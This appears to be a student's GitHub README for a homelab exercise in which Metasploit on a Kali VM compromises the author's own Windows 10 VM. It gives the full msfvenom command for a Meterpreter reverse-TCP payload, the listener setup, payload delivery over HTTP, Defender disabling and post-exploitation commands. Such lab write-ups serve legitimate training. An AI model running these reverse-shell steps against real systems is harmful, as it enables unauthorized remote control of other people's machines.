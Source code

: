 # Kali-Metasploit-Project-Homelab

# Metasploit Penetration Testing Project

## 📌 Overview
For my project I demonstrated the use of **Metasploit Framework** to exploit a **Windows 10 VM** using a **Kali Linux VM** as the attacker. It covers the full penetration testing process, from setting up the environment to executing post-exploitation techniques.

⚠️ **Disclaimer:** This project is for educational and ethical hacking purposes only. Unauthorized access to computer systems is illegal. Always obtain permission before testing.

## 📸 Screenshots of My Metasploit Project

### 1️⃣ Kali Linux Attacking the Windows 10 VM|Successful Exploit Session: 
https://github.com/AndreeSalvo/Kali-Metasploit-Project-Homelab/blob/main/Kali%20Linux%20Attacking%20the%20Windows%2010%20VM%20Successful%20Exploit%20Session.png

### 2️⃣ Windows 10 Target VM|File explorer w/ the payload:
https://github.com/AndreeSalvo/Kali-Metasploit-Project-Homelab/blob/main/Payload%20into%20the%20file%20explorer.png

### 3️⃣ Windows 10 Target VM|CMD prompt executed payload:
https://github.com/AndreeSalvo/Kali-Metasploit-Project-Homelab/blob/main/Executed%20the%20payload.png

---

## 🔧 Installation & Setup

### **1️⃣ Install VMware Workstation Pro**
- Download and install VMware Workstation Pro from [VMware’s official site](https://www.vmware.com/products/workstation-pro.html).

### **2️⃣ Set Up Virtual Machines**
#### **Kali Linux VM (Attacker)**
- Download the latest **Kali Linux** ISO from [Kali’s official website](https://www.kali.org/).
- Install Kali on VMware and ensure **Metasploit Framework** is installed:
  ```bash
  sudo apt update && sudo apt install metasploit-framework -y

Windows 10 VM (Target)
- Install a Windows 10 virtual machine.
- Disable Windows Defender to prevent automatic deletion of the payload.

3️⃣ Configure Network Settings
I used the Bridged Adapter for both VMs to allow network communication.
Check IP addresses:
ip a   # On Kali
ipconfig   # On Windows (Command Prompt)

🎯 Exploitation Steps
1️⃣ Generate Payload (Malicious Executable)
Run the following msfvenom command on Kali to create a reverse shell payload:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your_Kali_IP> LPORT=4444 -f exe > payload.exe

2️⃣ Transfer Payload to Windows 10
Use a USB drive:
- sudo cp payload.exe /media/kali/USB_NAME/
- python3 -m http.server 8080
- http://<Your_Kali_IP>:8080/payload.exe

3️⃣ Start the Metasploit Listener
Launch Metasploit and set up the exploit:
msfconsole #start metasploit
- use exploit/multi/handler
- set payload windows/meterpreter/reverse_tcp
- set LHOST <Your_Kali_IP>
- set LPORT 4444
- exploit

4️⃣ Execute Payload on Windows
Run payload.exe on Windows. If successful, Meterpreter will open:
meterpreter >

🔥 Post-Exploitation Techniques
Once inside Meterpreter, try these:

Check system info:
- sysinfo
- getuid
- screenshot

🛑 Cleanup & Exit
To remove traces and exit:
- rm C:\\Users\\Public\\payload.exe
- exit
- sessions -K

⚖️ Legal & Ethical Considerations
This project is intended for educational purposes only. Unauthorized penetration testing is illegal under the Computer Fraud and Abuse Act (CFAA). Only perform tests in authorized environments with explicit permission.

I did a penetration testing on my own Kali Linux & windows 10 VM on my personal computer! so if you plan on doing this, please be responisble! 

Always hack responsibly! 🚀

📜 License
This project is released under the MIT License. You are free to use, modify, and distribute it for educational purposes.
